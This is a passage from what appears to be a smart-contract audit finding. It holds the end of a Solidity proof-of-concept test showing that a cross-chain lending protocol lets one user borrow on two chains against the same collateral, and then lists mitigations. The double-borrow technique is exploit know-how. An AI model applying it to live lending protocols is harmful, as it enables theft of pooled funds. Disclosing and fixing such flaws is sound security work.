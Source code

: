 ```solidity
        vm.stopPrank();
        
        // VERIFICATION: Check that Alice has borrowed twice using the same collateral
        uint256 balanceB = IERC20(borrowTokenB).balanceOf(attacker);
        uint256 balanceC = IERC20(borrowTokenC).balanceOf(attacker);
        
        // Verify both borrows succeeded
        assertEq(balanceB, borrowAmount, "Should have borrowed from Chain B");
        assertEq(balanceC, borrowAmount, "Should have borrowed from Chain C");
        
        // Calculate total borrowed - should exceed what's allowed by collateral
        uint256 totalBorrowed = balanceB + balanceC;
        
        console.log("VULNERABILITY PROOF:");
        console.log("------------------");
        console.log("Borrowed from Chain B:", balanceB / 1e18, "tokens");
        console.log("Borrowed from Chain C:", balanceC / 1e18, "tokens");
        console.log("Total borrowed:", totalBorrowed / 1e18, "tokens");
        console.log("Maximum allowed by collateral:", maxAllowedBorrow / 1e18, "tokens");
        
        // Calculate the actual collateral factor after the attack
        uint256 actualCollateralFactor = (totalBorrowed * 1e18) / collateralAmount;
        console.log("Actual collateral factor after attack:", actualCollateralFactor / 1e18 * 100, "%");
        console.log("Protocol is over-leveraged by:", (actualCollateralFactor - COLLATERAL_FACTOR) / 1e18 * 100, "%");
        
        // Vulnerability demonstrated: Able to borrow 100 tokens total with only 75 tokens worth of collateral
        // (assuming 75% collateral factor)
        assertEq(totalBorrowed, borrowAmount * 2, "Total borrow should be double the single borrow amount");
        assertTrue(totalBorrowed > maxAllowedBorrow, "Total borrowed exceeds max allowed by collateral factor");
        
        // In a secure implementation, the second borrow would be rejected
        // or the collateral would be locked during the first borrow
    }
}
```

### Mitigation

- Before sending the LayerZero message, subtract the requested amount from a “free collateral” counter or add it to a “reserved collateral” field; release or convert it after the ACK returns.
- Alternatively block any new borrowCrossChain call from the same user (or user+token pair) while another borrow is pending.
- On the destination side, re-query the up-to-date collateral (via oracle or proof) instead of relying on the payload snapshot.